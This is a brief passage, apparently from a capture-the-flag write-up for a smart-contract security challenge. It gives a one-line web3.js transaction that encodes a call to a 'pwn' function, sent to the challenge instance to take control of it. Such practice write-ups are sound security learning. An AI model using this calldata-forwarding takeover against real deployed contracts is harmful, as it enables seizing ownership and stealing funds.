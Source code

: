 This is a hard solution if you haven't used much web3.js, so I've just pasted what I did here:  
`sendTransaction({ to: instance, from: player, data: web3.eth.abi.encodeFunctionCall({ name: 'pwn', type: 'function', inputs: [] }, []) })`